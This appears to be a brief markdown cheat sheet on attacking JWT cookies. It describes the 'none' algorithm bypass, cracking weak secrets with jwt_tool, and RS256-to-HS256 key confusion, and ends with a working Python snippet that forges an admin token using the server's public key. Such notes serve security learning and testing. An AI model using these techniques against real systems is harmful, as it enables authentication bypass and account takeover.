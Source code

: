 # Cookies

## JWT token

### None algo 

Jwt cookies can be vulnerable if signature is not properly checked !
If so, we can modify the alg to none and delete the signature and modify the payload.

### Weak secret

We can crack the signature too with jwt tool https://github.com/ticarpi/jwt_tool

### RS256 to HS256

Misconfigured backend can be vunlerable if it doesnt check properly the return algo.
If we modify the algo from RS256 to HS256 and we use the public key as the secret, the backend will check the token with HS256 algo with the public key as the signature

HOW TO 

Save the key in a key.pem file
❗❗❗ Respect this format

	-----BEGIN PUBLIC KEY-----
	key
	-----END PUBLIC KEY----- 

	import jwt
	public = open('key.pem','r').read()
	public = "\n".join(public.split('\n'))+"\n"
	print(jwt.encode({"username":"admin"}, key=public, algorithm='HS256')) 


